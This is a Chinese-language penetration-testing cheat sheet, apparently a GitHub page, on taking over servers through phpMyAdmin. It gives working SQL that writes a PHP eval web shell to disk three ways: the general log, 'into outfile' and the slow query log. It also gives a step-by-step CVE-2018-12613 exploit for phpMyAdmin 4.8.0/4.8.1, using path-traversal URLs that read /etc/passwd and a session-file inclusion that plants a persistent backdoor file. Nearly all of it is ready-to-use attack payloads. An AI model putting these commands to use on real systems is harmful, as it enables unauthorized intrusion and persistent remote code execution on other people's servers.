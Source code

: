 [phpmyadmin写shell](https://mp.weixin.qq.com/s/GG_W7LBbfBrCX33ewcEwAg) [2](https://blog.csdn.net/qq_40638006/article/details/122033546) [3](https://mp.weixin.qq.com/s/Y1yP5JmAZWwxYoSZSuaEIg)

### phpMyadmin 后台日志写shell
方式1.登录到后台日志写shell
```shell
show global variables like "%genera%";    #查询general_log全局变量配置
set global general_log='on';             #开启生成日志
SET global general_log_file='C:/phpStudy/www/shell.php'; #设置日志存储路径
select "<?php eval($_POST['cmd']);?>";   #写入一句话
set global general_log='off';             #关闭general_log模式
```

方式2. outfile

```bash
select "<?php @eval($_POST['cmd']);?>" into outfile "C://phpstudy/www/info.php"
select "<?php @eval($_POST['cmd']);?>" into outfile '/var/www/html/shell.php'
```
需要配置文件中 secure_file_priv 值为NULL, 且更改后需重启服务才生效且更改后需重启服务才生效

方式3. 慢日志
```bash
--show variables like '%slow_query_log%';      查看慢查询日志开启情况
--set global slow_query_log=on;         开启慢查询日志
--set global slow_query_log_file='绝对路径/shell03.php';   修改日志文件存储的绝对路径
--select "<?php @eval($_POST['123']);?>" or sleep(10);      向日志文件中写入shell
#使用慢查询日志时，只有当查询时间超过系统时间(默认为10秒)时才会记录在日志中，使用如下语句可查看系统时间：
--show global variables like '%long_query_time%';
```

### CVE-2018-12613 文件包含
[phpMyAdmin 4.8.0和4.8.1](https://blog.csdn.net/qq_38626043/article/details/119620612)

http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
可见/etc/passwd被读取, 后面进行 session 包含读马

在同一窗口执行，防止 session改变
test库执行sql `select '<?php phpinfo(); ?>'`

F12 - Application - Cookies 看到 session: `b38ba3b7116d19bb294a73c12229db12` 访问成功显示 phpinfo();

http://192.168.50.8:2003/index.php?target=db_datadict.php%253f../../../../../../../../../tmp/sess_0b71943960b781880a45a642c4179c4d

再执行sql。不要管错误
```sql
select `<?php fputs(fopen("a.php","w"),'<?php eval($_POST[a]);?>');?>`
```

访问 http://192.168.50.8:2003/index.php?target=db_datadict.php%253f../../../../../../../../../tmp/sess_0b71943960b781880a45a642c4179c4d

完成a.php的添加:   http://192.168.50.8:2003/a.php